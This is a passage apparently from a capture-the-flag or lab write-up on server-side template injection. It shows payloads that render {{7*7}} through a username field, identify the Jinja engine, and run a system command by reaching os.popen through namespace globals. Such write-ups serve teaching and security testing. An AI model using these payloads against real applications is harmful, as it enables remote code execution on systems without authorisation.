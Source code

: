 ```bash
{{7*7}}
```

- It changed the username to the result of `49`

![](.gitbook/assets/2025-07-06_23-30-22_224.png)

- Find which template engine it is using

```bash
{{7*'7'}}
# Results to
7777777
```

- The template engine is `Jinja`
- Check system commands execution via the following SSTI

```bash
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
